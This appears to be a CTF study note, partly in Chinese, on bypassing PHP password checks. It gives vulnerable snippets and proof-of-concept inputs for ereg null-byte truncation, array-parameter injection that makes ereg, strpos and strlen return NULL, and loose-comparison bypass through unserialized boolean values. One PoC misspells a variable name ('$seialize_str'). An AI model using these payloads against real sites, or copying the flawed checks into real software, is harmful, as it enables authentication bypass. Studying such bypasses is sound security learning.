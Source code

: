 # php match

## ereg

* example

'''php
if (ereg ("^[a-zA-Z0-9]+$", $_GET['password']) === FALSE){
	echo '<p>You password must be alphanumeric</p>';
}
else if (strlen($_GET['password']) < 8 && $_GET['password'] > 9999999){
    if (strpos ($_GET['password'], '*-*') !== FALSE){
        die('Flag: ' . $flag);
    }
}
    
'''

* poc 1

'''
url: ...?password=1e9%00*-*
'''
此处利用 **ereg 经典漏洞**，读到 ** %00 ** 就截止了

* poc 2

'''
url: ...?password[]=s
''' 

**传入数组**
ereg 返回** NULL** ，NULL !== FALSE is true
strpos 处理数组，也返回 ** NULL **
strlen 处理数组，同样返回 **NULL**

**比较**
null 和 任何其他任何类型，比较，转换为 bool， FALSE < TRUE
array 和  任何其他类型（不包括 object）， 比较， array 总是更大


## loose comparison(== operator) 

* example

’‘’php
$flag='ctf_flag';
$unserialize_str = $_POST['password'];
$data_unserialize = unserialize($unserialize_str);
if($data_unserialize['user'] == '???' && $data_unserialize['pass']=='???')
{
    print_r($flag);
}
'''

user, pass 的值是未知的，条件判断时使 $data_unserialize['user']=true ， $data_unserialize['pass']=true 即可

* poc

'''php
$arr =  array();
$arr['user']=TRUE;
$arr['pass']=TRUE;
$seialize_str = serialize($arr);    //a:2:{s:4:"user";b:1;s:4:"pass";b:1;}
$flag='ctf_flag';
$data_unserialize = unserialize($serialize_str);
if($data_unserialize['user'] == '???' && $data_unserialize['pass']=='???')
{
    print_r($flag);
}
'''